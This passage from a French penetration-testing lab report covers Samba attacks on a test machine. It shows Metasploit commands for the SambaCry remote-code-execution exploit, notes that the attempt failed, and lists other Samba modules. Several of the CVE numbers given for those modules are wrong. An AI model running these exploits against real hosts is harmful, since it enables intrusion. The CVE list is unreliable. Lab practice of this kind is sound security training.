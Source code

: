 #### 🚀 Étape 3.2 – Exploitation #2 : CVE-2017-7494 (SambaCry – is_known_pipename)
RCE possible **uniquement** si un partage **en écriture** est accessible (permet de déposer une librairie malveillante).

```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.168.1.32
set LHOST 192.168.1.30
run
```

**Résultat obtenu :**
![alt text](image-12.png)

**Analyse :**
- L’exploit **nécessite un partage en écriture** (ex. `tmp`, `public`) pour charger le code.
- **Aucun partage en écriture** n’a été détecté par le module → **pas de cible**.
- **Conclusion partielle :** CVE-2017-7494 **non exploitable** dans l’état actuel.

#### 📸 Résumé factuel (ce qui marche / ne marche pas)
- **Énumération SMB** : réalisable (partages listés si présents).  
- **CVE-2007-2447 (usermap_script)** : ❌ échec — **port 139 fermé/non joignable**.  
- **CVE-2017-7494 (SambaCry)** : ❌ échec — **aucun partage en écriture** trouvé → pas de cible.

#### 🔍 Vérification des autres modules Samba disponibles dans Metasploit
```bash
search samba
```
Une recherche élargie dans Metasploit montre l’existence d’autres modules d’exploitation liés à Samba :  

- `exploit/linux/samba/lsa_transnames_heap` (CVE-2003-0201) → cible Samba 2.x uniquement.  
- `exploit/linux/samba/chain_reply` (CVE-2015-0240) → cible Samba 4.0.0 à 4.2.0rc4.  
- `exploit/linux/samba/setinfopolicy_heap` (CVE-2003-0201).  
- `exploit/linux/samba/trans2open` (CVE-2003-0201).  

**Analyse :**  
- Ces modules sont présents dans Metasploit, mais ne concernent pas la version installée sur la cible (Samba 3.x–4.x sous Ubuntu 14.04).  
- Ils n’ont donc pas été testés, car **non applicables dans ce contexte**.

➡️ Cela confirme que, parmi les failles connues exploitables avec Metasploit, seules **CVE-2007-2447** et **CVE-2017-7494** s’appliquaient potentiellement à notre cible, mais n’ont pas abouti.
